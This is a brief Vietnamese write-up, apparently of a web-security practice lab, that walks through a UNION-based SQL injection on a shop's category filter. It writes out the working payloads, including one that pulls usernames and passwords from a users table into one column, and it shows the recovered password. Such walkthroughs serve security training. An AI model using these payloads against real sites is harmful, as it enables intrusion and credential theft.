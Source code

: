 Xin chào lại là l3mh0cr3d đây
Đề bài lần này sẽ là Tấn công UNION chèn SQL , truy xuất nhiều giá trị trong một cột
 Thì thay vì nó query ra một một nên chúng ta thử xem
 + Đầu tiên hãy thử xem loại db gì
 Khi payload là       filter?category=Gifts%27%20UNION%20SELECT%20NULL,NULL%20--
 thì trả ra kết quả bây giờ chúng ta sẽ cần truy xuất cả username và password trong 1 cột:
                                        filter?category=Gifts%27%20UNION%20SELECT%20NULL,CONCAT(username, ' ~ ', password)%20--
 có vẻ như không được nên dùng cái này
                                        '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
và oke đã thành công 
![Alt text](image-22.png)
password là yk30enm4dajf3novrksb

chúc các bạn thành công :))
Author : l3mh0cr3d from kma wit4 l013